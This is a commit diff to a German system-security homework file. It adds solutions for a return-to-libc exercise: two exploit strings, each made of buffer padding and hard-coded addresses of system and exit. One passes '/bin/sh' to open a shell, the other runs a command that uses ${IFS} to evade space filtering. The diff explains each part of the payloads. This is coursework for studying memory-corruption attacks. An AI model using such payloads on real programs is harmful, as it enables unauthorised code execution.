

Before and after one commit to Lemrator/Homework, a LaTeX document (Übung 4/syssec.tex): part of page 3 of 3 before the commit and two parts of pages 3 and 4 of 4 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Update PDF and TeX files

```diff
--- a/Übung 4/syssec.tex
+++ b/Übung 4/syssec.tex
@@ -52,6 +52,29 @@ Sobald eine Funktion returnt, wird die nächste Instruktion im Stack ausgeführt
 Es wäre ein Problem, wenn die Funktion \verb|f| einen Parameter mehr erwartet, da sie dann die Adresse der Funktion \verb|g| als zweiten Parameter annimmt, während der erste Parameter der Funktion \verb|g| fälschlicherweise die Adresse dieser Funktion darstellt. Für die Funktion \verb|g| gilt nicht diese Einschränkung, da die Funktion \verb|g| die letzte Library-Funktion der Chain darstellt. Die vorigen Stackframes haben keinen Einfluss auf die Code Reuse Attack.\\
 Das Problem, wenn wir nach Funktion \verb|f| und \verb|g| noch eine weitere Funktion aufrufen wollen, liegt darin dass der Inhalt des vorigen Stackframes korrumpiert wird, sodass das Programm abstürzen könnte.
 \subsection{b)}
+Lösung Aufgabe 2 b) i):\\
+\begin{lstlisting}
+run $(python -c "print'\x90'*112 + '\x10\xcd\xe1\xf7' + '\x70\xff\xe0\xf7' + '\xcf\xb8\xf5\xf7'")
+\end{lstlisting}
+Zusammensetzung:
+\begin{itemize}
+\item 112 Byte Padding (Buffer)
+\item Adresse der Funktion "{}system"{}
+\item Adresse der Funktion "{}exit"{} \textbf{Für ordentliches Terminieren!}
+\item Adresse des Strings "{}/bin/sh"{}
+\end{itemize}
+Lösung Aufgabe 2b) i):\\
+\begin{lstlisting}
+run $(python -c "print'\x90'*112 + '\x10\xcd\xe1\xf7' + '\x70\xff\xe0\xf7' + '\x47\xd2\xff\xff' + 'touch$\x7BIFS\x7Downed'")
+\end{lstlisting}
+Zusammensetzung:
+\begin{itemize}
+\item 112 Byte Padding (Buffer)
+\item Adresse der Funktion "{}system"{}
+\item Adresse der Funktion "{}exit"{} \textbf{Für ordentliches Terminieren!}
+\item Adresse des Strings "{}touch owned"{}
+\item Befehl "{}touch owned"{}, wobei das Leerzeichen mithilfe der Umgebungsvariblen "{}IFS"{} escaped wird.
+\end{itemize}
 
 \section{Aufgabe 3: Stack Canaries}
 
```
Also changed, not shown: Übung 4/syssec.pdf.
